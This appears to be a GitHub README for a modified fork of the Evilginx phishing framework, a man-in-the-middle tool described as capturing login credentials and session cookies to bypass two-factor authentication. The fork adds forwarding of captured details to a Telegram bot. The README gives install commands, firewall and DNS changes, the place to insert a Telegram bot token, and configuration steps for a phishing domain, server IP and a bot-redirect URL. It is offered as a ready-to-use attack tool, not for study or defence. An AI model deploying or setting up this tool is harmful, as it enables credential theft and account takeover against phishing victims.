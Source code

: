 <p align="center">
  <img alt="Evilginx2 Logo" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-logo-512.png" height="160" />
  <p align="center">
    <img alt="Evilginx2 Title" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-title-black-512.png" height="60" />
  </p>
</p>

# Latest Evilginx 3.4.2 - Modified by @zn0m + telegram sending captured details + cookies



#THANKS !


**Evilginx** is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection.


How to install ?

On Ubuntu:
FRIST OF ALL MODIFY core/session.go
const (
	telegramBotToken = "" // Replace with your bot token from BotFather
	telegramChatID = ""   // Replace with your chat ID with Get my Chat ID invite it to your groups
)

1. sudo apt update sudo apt install git make gcc libpcap-dev -y wget https://go.dev/dl/go1.19.linux-amd64.tar.gz sudo tar -C /usr/local -xzf go1.19.linux-amd64.tar.gz export PATH=$PATH:/usr/local/go/bin source ~/.profile go version
2. sudo ufw allow 53 sudo ufw allow 80 sudo ufw allow 443 sudo ufw reload sudo systemctl stop systemd-resolved sudo systemctl disable systemd-resolved
3. sudo nano /etc/resolv.conf
remove old ns add these:
  nameserver 8.8.8.8
  nameserver 8.8.4.4
4. git clone https://github.com/zn0m/evgnx2.git
5. cd evgnx2
6.make
7. sudo ./build/evilginx -p ./phishlets -t ./redirectors 127.0.0.1:35800 -developer

Setup your configuration.

1. config domain something.com
2. cofig ipv4 external serverip
3. config ipv4 bind serverip
4. config unauth_url https://bots.here.redirected.com/
5. config autocert off/on

[ if ON free certificates is used, it can rate-limit your domain if u ask too much. ]
[ If OFF 
- Feature: Added support to load custom TLS certificates from a public certificate file and a private key file stored in `~/.evilginx/crt/sites/<hostname>/`. Will load `fullchain.pem` and `privkey.pem` pair or a combination of a `.pem`/`.crt` (public certificate) and a `.key` (private key) file. Make sure to run without `-developer` flag and disable autocert retrieval with `config autocert off`.
}




Add to your Telegram group https://t.me/raw_data_bot and your Group Chat ID will be displayed.



## Help

In case you want to learn how to install and use **Evilginx**, please refer to online documentation available at:

https://help.evilginx.com


This tool is a successor to [Evilginx](https://github.com/kgretzky/evilginx), released in 2017, but i did modification in 2024.04.02 which used a custom version of nginx HTTP server to provide man-in-the-middle functionality to act as a proxy between a browser and phished website.
Present version is fully written in GO as a standalone application, which implements its own HTTP and DNS server, making it extremely easy to set up and use.
